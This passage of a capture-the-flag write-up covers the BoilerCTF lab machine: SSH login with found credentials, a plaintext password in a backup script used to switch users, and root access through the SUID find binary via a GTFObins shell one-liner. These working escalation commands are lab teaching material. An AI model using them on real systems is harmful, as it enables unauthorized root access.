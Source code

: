 This appeared to be another set of credentials, which I used to successfully gain initial access via SSH: 
```bash
kali@kali:~/ctf/boilerctf$ ssh -p 55007 basterd@10.10.88.41

$ id
  uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
```

The shell environment was not very user-friendly, so I switched to Penelope.

## Privilege Escalation stoner

I continued by enumerating the user home directories and found a script called `/home/basterd/backup.sh`. Inside the script, the password for the user stoner was stored. With the credentials, I was able to switch to the user and retrieve the user flag. 
```bash
basterd@Vulnerable:~$ cat backup.sh
  [...]
  USER=stoner
  #s[removed]s
  [...]
basterd@Vulnerable:~$ su stoner 
  Password: 
stoner@Vulnerable:/home/basterd$ id
  uid=1000(stoner) gid=1000(stoner) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
stoner@Vulnerable:~$ cat .secret 
  You [removed].
```

## Privilege Escalation root
I started with `sudo -l` and obtained the following output:
```bash
stoner@Vulnerable:/home$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

Next, I checked for SUID bits and found the following:
```bash
stoner@Vulnerable:/home$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/find
  [...]
```

A quick search in <a href="https://gtfobins.github.io/gtfobins/find/#suid">GTFObins</a> provided everything I needed:
```bash
stoner@Vulnerable:/home$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
  root 
# cd /root
# cat root.txt
  It [removed]?
```

solved! :)